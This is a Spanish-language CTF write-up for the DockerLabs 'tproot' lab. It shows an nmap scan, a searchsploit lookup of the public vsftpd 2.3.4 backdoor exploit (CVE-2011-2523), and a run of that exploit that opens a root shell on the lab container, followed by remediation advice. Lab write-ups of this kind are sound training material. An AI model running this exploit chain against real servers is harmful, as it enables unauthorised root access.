


# Tproot — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Descripcion 

**tproot** es un laboratorio accesible de la plataforma **Dockerlabs** diseñado para ejercitar la explotación de vulnerabilidades conocidas en servicios de red básicos. El entorno simula un servidor con una instalación vulnerable del servicio **vsFTPd versión 2.3.4**, la cual incluye una célebre puerta trasera (*backdoor*) identificada con el CVE oficial **CVE-2011-2523**.

El objetivo principal del laboratorio es identificar el servicio expuesto, detonar la condición vulnerable para forzar la apertura de un puerto de administración no documentado (TCP 6200) y obtener acceso de línea de comandos con privilegios máximos (`root`).

**Attack chain:** Reconnaissance → vsftpd 2.3.4 Identified → Apache Default Page Ruled Out → Public Backdoor Exploit (searchsploit) → Root

## 1. Reconocimiento e Identificación del Servicio

Con el contenedor de Dockerlabs desplegado en la IP `172.17.0.2`, realizamos una verificación de conectividad.



La respuesta del ping fue exitosa lo cual significa que se ha desplegado correctamente y se encuentra operativa.

### 1.2 Realizamos una busqueda para verificar puertos y servicios activos.

```text
┌──(mariano㉿Kaotic)-[~]
└─$ sudo nmap -sC -sV 172.17.0.2

Starting Nmap 7.99 ( [https://nmap.org](https://nmap.org) ) at 2026-09-23 15:39 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 6E:11:24:42:FF:47 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 6.98 seconds
```

Ya teniendo el resultado del escaneo de puertos, podemos observar que hay dos servicios corriendo, un servicio ftp y un apache.

### 1.3 Hacemos Web Enumeration


Ingresamos a la ip desde el navegador, para realizar web enumeration, visualizamos que el servidor se encuentra por defecto, por lo cual no encontramos vulnerabilidades para explotar.

## 2. Busqueda de exploits.

Viendo el escaneo que hemos realizado en con nmap, utilizamos searchsploit para buscar una vulnerabilidad ya expuesta, utilizando la version del servidor fpt, que es el servicio que nos queda por analizar.

```text 
                                                                                                                                        
┌──(mariano㉿Kaotic)-[~]
└─$ searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                        |  Path
------------------------------------------------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                             | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                | unix/remote/17491.rb
------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                                        
┌──(mariano㉿Kaotic)-[~]
└─$ searchsploit -m unix/remote/49757.py
  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /usr/share/exploitdb/exploits/unix/remote/49757.py
    Codes: CVE-2011-2523
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/mariano/49757.py
```
Encontramos que hay una vulnerabilidad la cual es un CVE, descargamos y ejecutamos el script.

```text                                                                                                                                       
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/tproot]
└─$ python3 49757.py 172.17.0.2
[*] Conectando a 172.17.0.2:21 para activar el backdoor...
[*] Banner recibido: 220 (vsFTPd 2.3.4)
[*] Payload enviado. Esperando 2 segundos a que el backdoor se inicie...
[*] Conectando a la shell en 172.17.0.2:6200...
[+] ¡Conexión exitosa! Escribe tus comandos a continuación:

$ whoami
root

$ id
uid=0(root) gid=0(root) groups=0(root)

$ uname -a
Linux dockerlabs 6.19.14+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.19.14-1+kali1 (2026-05-05) x86_64 x86_64 x86_64 GNU/Linux

$ uname -rm
6.19.14+kali-amd64 x86_64

```
Al ejecutar el script conseguimos una acceso root en el servidor ftp.

## Conclusion final.
| Vulnerabilidad | Remediación |
|---|---|
| vsftpd 2.3.4 | Actualizar a una versión segura y oficial |
| Servicio FTP con privilegios elevados | Ejecutarlo con un usuario sin privilegios |
| Apache sin hardening | Eliminar la página por defecto y deshabilitar el servicio si no es necesario |
